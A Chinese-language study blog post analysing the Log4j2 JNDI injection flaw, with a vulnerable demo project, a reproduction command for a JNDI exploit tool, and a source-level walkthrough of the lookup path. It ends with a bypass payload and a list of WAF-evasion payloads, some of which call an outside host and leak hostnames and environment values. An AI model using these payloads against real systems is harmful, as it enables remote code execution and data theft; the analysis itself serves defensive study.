


# Java安全学习—Log4j2远程代码执行漏洞

Author: H3rmesk1t

Data: 2022.02.10


## 漏洞描述
[Apache Log4j2](https://logging.apache.org/log4j/2.x/index.html)是`Apache`软件基金会下的一个开源的基于`Java`的日志记录工具. 该日志框架被大量用于业务系统开发, 用来记录日志信息, 由于其优异的性能而被广泛的应用于各种常见的`Web`服务中. 由于`Apache Log4j2`某些功能存在递归解析功能, 攻击者使用`${}`关键标识符触发`JNDI`注入漏洞, 当程序将用户输入的数据进行日志记录时即可触发此漏洞, 成功利用此漏洞可以在目标服务器上执行任意代码. 其触发方式简单、使用范围广泛, 漏洞危害极大.


## 环境搭建
使用`maven`来引入未进行安全补丁更新的相关组件的`2.14.0`版本, 在工程的`pom.xml`下添加如下配置:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>JavaSec-Learn</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.0</version>
        </dependency>
    </dependencies>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
    </properties>

</project>
```


项目创建好后添加漏洞环境示例代码:

```java
package org.h3rmesk1t.Log4j2;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/10 5:32 下午
 */
public class Vulnerability {

    private static final Logger logger = LogManager.getLogger();

    public static void main(String[] args) {

        logger.error("${jndi:ldap://127.0.0.1:1389/ladr0g}");
    }
}
```


## 漏洞复现
先启动恶意服务器, 来给`ldap`/`rmi`调用返回恶意代码, 这里我利用`JNDI`注入工具直接生成了.

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,b3BlbiAtYSBDYWxjdWxhdG9y}|{base64,-d}|{bash,-i}" -A "127.0.0.1"
```

接着使用`logger.info`方法触发漏洞, 弹出计算器.


## 漏洞分析
### 漏洞点确定
先查看一下[官方修订信息](https://issues.apache.org/jira/projects/LOG4J2/issues/LOG4J2-3201?filter=allissues), 可以知道漏洞的利用方式是通过`JNDI`中`LDAP`注入的方式实现`RCE`的, 再查看补丁的更改记录后, 可以看到其对`lookup`函数的判断进行了修改.


### 关键点分析
从`JNDI lookup`官方文档说明中可以看出, `JndiLookup`允许通过`JNDI`检索变量, 然后传给示例. 在`Log4j2`中`JNDI`的用法格式为:`${jndi:JNDIContent}`


#### 日志记录
在实际应用中, 常用`LogManager#getLogger`方法来获取一个`Logger`对象, 并调用其`debug`、`info`、`error`、`warn`、`fatal`、`trace`或者`log`等方法来记录日志等信息.

跟进示例代码中的`error`方法, 发现其会调用`org.apache.logging.log4j.spi.AbstractLogger#logIfEnabled`的重载方法来根据当前配置的记录日志等级, 对是否输出`console`和记录日志文件进行判断.

而`Log4j2`中的日志等级分别为: `ALL`<`DEBUG`<`INFO`<`WARN`<`ERROR`<`FATAL`<`OFF`.


在默认的情况下, 会输出`WARN`/`ERROR`/`FATAL`等级的日志, 对于日志输出等级的变更也有两种方法:
 1. 使用配置文件更改日志输出等级

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration>
    <Loggers>
        <Logger name="org.h3rmesk1t" level="All"/>
    </Loggers>
</Configuration>
```

 2. 使用代码配置日志输出等级

```java
LoggerContext ctx          = (LoggerContext) LogManager.getContext(false);
Configuration config       = ctx.getConfiguration();
LoggerConfig  loggerConfig = config.getLoggerConfig(LogManager.ROOT_LOGGER_NAME);
loggerConfig.setLevel(Level.ALL);
ctx.updateLoggers();
```

在`logIfEnabled`方法中, 会继续调用`logMessage`方法, 而本次漏洞的触发点也是从`logMessage`方法开始的. 凡是调用了此方法的`info`/`error`/`warn`等全部方法均可以作为本次漏洞的触发点, 只是取决于配置的漏洞输出等级.


#### 消息格式化
`Log4j2`使用`org.apache.logging.log4j.core.pattern.MessagePatternConverter`对日志消息进行处理, 在实例化`MessagePatternConverter`时会从`Properties`及`Options`中获取配置来判断是否需要提供`Lookups`功能.


跟进`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS`属性值, 由于获取`log4j2.formatMsgNoLookups`配置的值默认为`false`, 因此`Lookups`功能时默认开启的.

```java
public static final boolean FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS = PropertiesUtil.getProperties().getBooleanProperty("log4j2.formatMsgNoLookups", false);
```

通过下断点的方式, 步进到`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`方法, 在这里可以看到会对我们传入的`Payload`进行处理, 先通过循环的方式找到`${`标志头, 接着会调用`StrSubstitutor#replace`方法进行字符替换操作.


#### 字符替换
`Log4j2`使用`org.apache.logging.log4j.core.lookup.StrSubstitutor`类来提供`Lookup`功能的字符替换操作. 类中提供了关键的`DEFAULT_ESCAPE`是`$`, `DEFAULT_PREFIX`前缀是`${`, `DEFAULT_SUFFIX`后缀是`}`, `DEFAULT_VALUE_DELIMITER_STRING`赋值分隔符是`:-`, `ESCAPE_DELIMITER_STRING`是`:\-`.


在前面消息格式化操作中的代码: `workingBuilder.append(this.config.getStrSubstitutor().replace(event, value))`, 先调用`getStrSubstitutor`方法, 而其中正好有`JNDI`.


接着会调用`StrSubstitutor#replace`方法, 在返回语句中调用`substitute`方法.


跟进`substitute`方法, 这个类提供的`substitute`方法是整个`lookup`功能的核心, 用来递归替换相应的字符. `substitute`方法先进行一系列值设置, 接着通过`while`循环对传入的字符串查找`${`前缀操作. 


待找到前缀后接着开始找后缀, 但是在找后缀的`while`循环里又判断了是否替换变量中的值, 如果替换, 则再匹配一次前缀. 如果又找到了前缀, 则`continue`跳出循环, 再走一次找后缀的逻辑, 用来满足变量中嵌套的情况.


后续的处理中, 通过多个`if-else`来匹配`:-`和`:\-`.
 - `:-`是一个赋值关键字, 如果程序处理到`${aaaa:-bbbb}`这样的字符串, 处理的结果将会是`bbbb`, `:-`关键字将会被截取掉, 而之前的字符串都会被舍弃掉.
 - `:\-`是转义的`:-`, 如果一个用`a:b`表示的键值对的`key a`中包含`:`, 则需要使用转义来配合处理, 例如`${aaa:\\-bbb:-ccc}`, 代表`key`是`aaa:bbb`, `value`是`ccc`.


在没有匹配到变量赋值或处理结束后, 将会调用`resolveVariable`方法解析满足`lookup`功能的语法, 并执行相应的`lookup`, 将返回的结果替换回原字符串后, 再次调用`substitute`方法进行递归解析。 在字符串替换的过程中可以看到, 方法提供了一些特殊的写法, 并支持递归解析. 利用这些特性, 可以用来进行绕过`WAF`. 正因为这种递归解析的逻辑导致除了命令执行漏洞外还产生的一种拒绝服务漏洞. 与此同时, 正因为这种递归解析的逻辑, 还会导致产生拒绝服务漏洞.



跟进`resolveVariable`方法, 会进一步调用`this.variableResolver#lookup`方法进行处理.


#### Lookup 处理
在字符替换最后调用的`this.variableResolver#lookup`方法, 实际上是一个代理类`Interpolator`. `Log4j2`使用`org.apache.logging.log4j.core.lookup.Interpolator`类来代理所有的`StrLookup`实现类. 也就是说在实际使用`Lookup`功能时, 是由`Interpolator`这个类来处理和分发的.

这个类在初始化时创建了一个`strLookupMap`, 将一些`lookup`功能关键字和处理类进行了映射, 存放在这个`Map`中.


在`2.14.0`版本中, 默认是加入`log4j`、`sys`、`env`、`main`、`marker`、`java`、`lower`、`upper`、`jndi`、`jvmrunargs`、`spring`、`kubernetes`、`docker`、`web`、`date`、`ctx`, 由于部分功能的支持并不在`core`包中, 所以如果加载不到对应的处理类, 则会添加警告信息并跳过. 而这些不同`Lookup`功能的支持, 是随着版本更新的, 例如在较低版本中不存在`upper`、`lower`这两种功能.



处理和分发的关键逻辑在于`lookup`方法, 其通过`:`作为分隔符来分隔`Lookup`关键字及参数, 从`strLookupMap`中根据关键字作为`key`匹配到对应的处理类并调用其`lookup`方法.


#### JNDI 查询
前面调用`lookup`操作时, 使用`jndi:`关键字来触发`JNDI 注入漏洞`, 在`Log4j2`中对于`jndi:`关键字的处理类为`org.apache.logging.log4j.core.lookup.JndiLookup`. 跟进该`lookup`方法, 可以看到是使用了`JndiManager`来进行`JNDI`的查询功能.


`JndiManager`使用私有内部类`JndiManagerFactory`来创建`JndiManager`实例. 在返回语句中创建了一个新的`InitialContext`实例, 并作为参数传递用来创建`JndiManager`, `Context`被保存在成员变量`context`中.


`JndiManager#lookup`方法则调用`this.context.lookup`来实现`JNDI`查询操作. `JndiManager`这个类也就是本次漏洞中`Log4j2`包内的最终`sink`点(后面计划学习用`CodeQL`来检测试试).


## RC1 绕过
参考文章: [Apache Log4j2从RCE到RC1绕过](https://xz.aliyun.com/t/10649#toc-2), 该版本中走到最后`lookup`操作时, 只要让`lookup`方法在执行的时候抛个异常就可以了(前提是开启`lookup`), 将`payload`修改成以下的形式:

```java
${jndi:ldap://xxx.xxx.xxx.xxx:xxxx/ ExportObject}
```

## Waf 绕过
这里收集了一点网上的`Waf`绕过`Payload`:

```text
${jndi:ldap://127.0.0.1:1389/ badClassName} 

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk
```


## 参考
 - [浅谈 Log4j2 漏洞](https://tttang.com/archive/1378/)
 - [log4j2 JNDI 注入漏洞分析](https://www.cnpanda.net/sec/1114.html)